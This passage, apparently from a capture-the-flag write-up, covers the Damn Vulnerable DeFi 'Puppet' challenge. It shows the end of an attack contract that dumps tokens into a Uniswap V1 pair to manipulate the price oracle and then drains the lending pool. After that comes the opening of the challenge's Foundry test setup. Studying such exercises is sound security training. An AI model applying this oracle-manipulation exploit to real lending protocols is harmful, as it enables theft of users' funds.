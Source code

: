 ```solidity
    ) payable {
        uniswapPair = _uniswapPair;
        pool = _pool;
        token = _token;

        IERC20(token).permit(msg.sender, address(this), amount, deadline, v, r, s);
        IERC20(token).transferFrom(msg.sender, address(this), amount);
        IERC20(token).approve(uniswapPair, amount);
        IUniswapV1Exchange(uniswapPair).tokenToEthTransferOutput(9.9 ether, amount, block.timestamp, payable(_recovery));
        IPuppetPool(pool).borrow{value: msg.value}(100000 ether, _recovery);
    }

    receive() external payable {}
}
```

### Test contract

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {PuppetPool} from "../../src/puppet/PuppetPool.sol";
import {IUniswapV1Exchange} from "../../src/puppet/IUniswapV1Exchange.sol";
import {IUniswapV1Factory} from "../../src/puppet/IUniswapV1Factory.sol";
import {AttackPuppet} from "../../src/puppet/AttackPuppet.sol";

contract PuppetChallenge is Test {
    address deployer = makeAddr("deployer");
    address recovery = makeAddr("recovery");
    address player;
    uint256 playerPrivateKey;

    uint256 constant UNISWAP_INITIAL_TOKEN_RESERVE = 10e18;
    uint256 constant UNISWAP_INITIAL_ETH_RESERVE = 10e18;
    uint256 constant PLAYER_INITIAL_TOKEN_BALANCE = 1000e18;
    uint256 constant PLAYER_INITIAL_ETH_BALANCE = 25e18;
    uint256 constant POOL_INITIAL_TOKEN_BALANCE = 100_000e18;

    DamnValuableToken token;
    PuppetPool lendingPool;
    IUniswapV1Exchange uniswapV1Exchange;
    IUniswapV1Factory uniswapV1Factory;

    modifier checkSolvedByPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
        _isSolved();
    }

    /**
     * SETS UP CHALLENGE - DO NOT TOUCH
     */
    function setUp() public {
        (player, playerPrivateKey) = makeAddrAndKey("player");

        startHoax(deployer);

```
